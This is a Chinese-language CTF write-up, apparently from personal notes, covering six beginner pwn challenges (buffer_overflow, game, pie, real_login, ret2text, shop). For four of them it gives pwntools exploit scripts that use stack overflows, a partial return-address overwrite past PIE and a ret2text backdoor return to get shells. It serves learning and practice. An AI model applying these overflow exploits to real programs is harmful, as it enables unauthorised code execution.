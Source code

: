 # buffer_overflow

![[Pasted image 20250115091055.png]]
反编译后可以看出当`local_62`与`ans`中的内容一样是就可以获取`flag`。
![[Pasted image 20250115091300.png]]
可以看到ans的内容
![[Pasted image 20250115091337.png]]
打开gdb调试可以看到`local_62`内内容的位置，构造`payload`将其覆盖为`ans`内容即可。
exp:
```python
from pwn import *

  

local = True

if local:

p = process("./buffer_overflow")

pwnlib.gdb.attach(p, 'b *main')

else:

pass

  

payload = b'a' * 0x46 + b'Limiter and Wings are beautiful girls!'

p.send(payload)

p.interactive()
```
flag:
![[Pasted image 20250115091529.png]]
# game

![[Pasted image 20250115092751.png]]
反编译后可以看出当local_14累加到999后就可以获取shell。
exp:
```python
from pwn import *

  

context(os="linux", arch="amd64", log_level="debug")

local = True

if local:

p = process("./game")

# pwnlib.gdb.attach(p, 'b *main')

else:

pass

  

num = 0

# p.recvuntil(b"Let's paly a game!")

while num<=999:

p.sendlineafter(b'pls input you num:', b'9')

num += 9

p.interactive()
```
flag:
![[Pasted image 20250115092855.png]]
# pie
开启了pie保护
![[Pasted image 20250115100232.png]]![[Pasted image 20250115100243.png]]
栈溢出仅能覆盖返回地址的一位，显然是将其覆盖为backdoor。
exp：
```python
from pwn import *

  

context(os="linux", arch="amd64", log_level="debug")

local = True

if local:

p = process("./pie")

pwnlib.gdb.attach(p, 'b puts')

else:

pass

  

# pwnlib.gdb,attach(p)

payload = b'a' * 0x28 + p64(0x6c)

p.send(payload)

p.interactive()
```
shell:
![[Pasted image 20250116161208.png]]

# real_login
![[Pasted image 20250115100541.png]]
当输入为password时获取shell
![[Pasted image 20250115100606.png]]
password如上
shell：
![[Pasted image 20250115100635.png]]
# ret2text
取名为ret2text则大概率有后门函数
![[Pasted image 20250116145056.png]]
有明显的栈溢出漏洞，找找后门函数
![[Pasted image 20250116145124.png]]
action不是CET-4 word所以他是后门函数~~找了半天~~ 
exp:
```python
from pwn import *

  

context(os="linux", arch="amd64", log_level="debug")

local = True

if local:

p = process("./ret2text")

pwnlib.gdb.attach(p, 'b *main')

else:

pass

  

# rbp = 0x4011fd

ret = 0x40101a

backdoor = 0x4014ba

  

payload = b'a' * 0x48 + p64(ret) + p64(backdoor)

p.recvuntil("Make a wish: ")

p.sendline(payload)

p.interactive()
```
shell:
![[Pasted image 20250116145301.png]]
# shop
运行后发现是一个简单的商店程序。
反编译后发现程序都没有明显的漏洞。
![[Pasted image 20250115155103.png]]
根据提示会告知我们为整数漏洞。
那么最明显的就是让我们的钱变为负数来触发漏洞。
正常的购买都会判断钱是否足够再扣钱，但选项3则会无条件扣除50.
![[Pasted image 20250115155212.png]]
那么只需要让拥有的钱数少于50后触发选项3就能触发整数漏洞。
![[Pasted image 20250115155407.png]]
可以看到初始钱数为0x64即100。
获取shell：
![[Pasted image 20250115155516.png]]